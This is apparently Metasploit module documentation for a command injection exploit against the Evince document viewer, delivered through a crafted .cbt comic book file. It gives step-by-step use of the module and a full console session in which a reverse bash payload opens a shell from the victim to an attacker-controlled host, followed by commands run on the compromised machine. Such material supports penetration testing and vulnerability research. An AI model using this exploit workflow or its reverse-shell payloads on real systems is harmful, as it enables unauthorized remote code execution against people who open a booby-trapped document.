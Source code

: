## Description

  This module exploits a command injection vulnerability in Evince
  before version 3.24.1 when opening comic book `.cbt` files.

  Some file manager software, such as Nautilus and Atril, may allow
  automatic exploitation without user interaction due to thumbnailer
  preview functionality.

  Note that limited space is available for the payload (<256 bytes).
  Reverse Bash and Reverse Netcat payloads should be sufficiently small.


## Vulnerable Application

  [Evince](https://wiki.gnome.org/Apps/Evince) is a document viewer
  for multiple document formats.

  This module has been tested successfully on evince versions:

  * 3.4.0-3.1 + nautilus 3.4.2-1+build1 on Kali 1.0.6
  * 3.18.2-1ubuntu4.3 + atril 1.12.2-1ubuntu0.3 on Ubuntu 16.04


## Verification Steps

  1. ```use exploit/multi/fileformat/evince_cbt_cmd_injection```
  2. ```set PAYLOAD <PAYLOAD>```
  3. ```run```
  4. The module should generate the malicious `msf.cbt` file
  5. ```handler -p <PAYLOAD> -H <LHOST> -P <LPORT>```
  6. Copy `msf.cbt` to target host and open with Evince
  7. You should receive a new session


## Options

### FILENAME

  The cbt document file name (default: `msf.cbt`)


## Scenarios

  ```
  msf > use exploit/multi/fileformat/evince_cbt_cmd_injection 
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > run

  [*] Writing file: msf.cbt (1078272 bytes) ...
  [+] msf.cbt stored at /root/.msf4/local/msf.cbt
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > mv /root/.msf4/local/msf.cbt /var/www
  [*] exec: mv /root/.msf4/local/msf.cbt /var/www

  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > use exploit/multi/handler 
  msf exploit(multi/handler) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf exploit(multi/handler) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Command shell session 1 opened (172.16.191.188:4444 -> 172.16.191.160:39362) at 2019-02-03 00:16:59 -0500

  id
  uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
  uname -a
  Linux ubuntu-16-04-x64 4.4.0-140-generic #166-Ubuntu SMP Wed Nov 14 20:09:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  ```


## Manual Cleanup

To prevent re-exploitation from a thumbnailer process:

  ```
  /usr/bin/killall evince-thumbnailer
  /usr/bin/killall atril-thumbnailer
  ```

